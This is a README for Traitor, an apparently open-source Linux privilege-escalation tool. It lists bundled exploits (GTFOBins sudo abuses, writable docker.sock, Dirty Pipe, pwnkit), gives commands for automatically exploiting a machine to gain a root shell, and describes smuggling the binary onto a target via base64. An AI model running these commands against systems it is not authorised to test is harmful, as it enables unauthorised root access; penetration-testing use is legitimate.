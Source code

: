 # Traitor
dDdddd
Automatically exploit low-hanging fruit to pop a root shell. Linux privilege escalation made easy!

Traitor packages up a bunch of methods to exploit local misconfigurations and vulnerabilities in order to pop a root shell:

- Nearly all of [GTFOBins](https://gtfobins.github.io/)
- Writeable docker.sock
- CVE-2022-0847 (Dirty pipe)
- CVE-2021-4034 (pwnkit)
- CVE-2021-3560

![Demo](demo.gif)

It'll exploit most sudo privileges listed in GTFOBins to pop a root shell, as well as exploiting issues like a writable `docker.sock`, or the recent dirty pipe (CVE-2022-0847). More routes to root will be added over time too.

## Usage

Run with no arguments to find potential vulnerabilities/misconfigurations which could allow privilege escalation. Add the `-p` flag if the current user password is known. The password will be requested if it's needed to analyse sudo permissions etc.

```bash
traitor -p
```

Run with the `-a`/`--any` flag to find potential vulnerabilities, attempting to exploit each, stopping if a root shell is gained. Again, add the `-p` flag if the current user password is known.

```bash
traitor -a -p
```

Run with the `-e`/`--exploit` flag to attempt to exploit a specific vulnerability and gain a root shell.

```bash
traitor -p -e docker:writable-socket
```

## Supported Platforms

Traitor will run on all Unix-like systems, though certain exploits will only function on certain systems.

## Getting Traitor

Grab a binary from the [releases page](https://github.com/liamg/traitor/releases), or use go:

```
CGO_ENABLED=0 go get -u github.com/liamg/traitor/cmd/traitor
```

For go1.18:

```
CGO_ENABLED=0 go install github.com/liamg/traitor/cmd/traitor@latest
```

If the machine you're attempting privesc on cannot reach GitHub to download the binary, and you have no way to upload the binary to the machine over SCP/FTP etc., then you can try base64 encoding the binary on your machine, and echoing the base64 encoded string to `| base64 -d > /tmp/traitor` on the target machine, remembering to `chmod +x` it once it arrives.

## In The News
- 20/06/21: [Console 58](https://console.substack.com/p/console-58) - Awesome newsletter featuring tools and beta releases for developers.
- 28/04/21: [Intigriti Bug Bytes #120](https://blog.intigriti.com/2021/04/28/bug-bytes-120-macos-pwned-homebrew-rce-the-worlds-shortest-backdoor/) - Recommended tools
- 09/03/21: [Hacker News thread](https://news.ycombinator.com/item?id=26224719)
